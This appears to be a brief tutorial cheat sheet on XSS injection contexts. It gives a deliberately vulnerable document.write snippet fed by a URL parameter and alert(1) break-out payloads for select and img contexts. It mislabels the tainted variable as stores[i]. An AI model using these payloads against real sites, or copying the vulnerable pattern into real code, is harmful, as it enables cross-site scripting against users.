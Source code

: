 # XSS Context Examples
## \<select\>
```
<script>
  var stores = ["London","Paris","Milan"];
  var store = (new URLSearchParams(window.location.search)).get('storeId');
  document.write('<select name="storeId">');
  if(store) {
    document.write('<option selected>'+store+'</option>');
  }
  for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
      continue;
    }
    
    document.write('<option>'+stores[i]+'</option>');
  }
  document.write('</select>');
</script>
```
A DOM-based XSS where `stores[i]` can be manipulated by the `storeId` URL parameter.

**Break out**: The `<select>` environment needs to be exited!
```
website.com?storeId=></select><img src=1 onerror=alert(1)>
```

## \<img\>
```
<img src="/resources?searchTerms=xxxx">
```
the following search term can be used to escape and trigger an alert:
```
"><svg onload=alert(1)>
```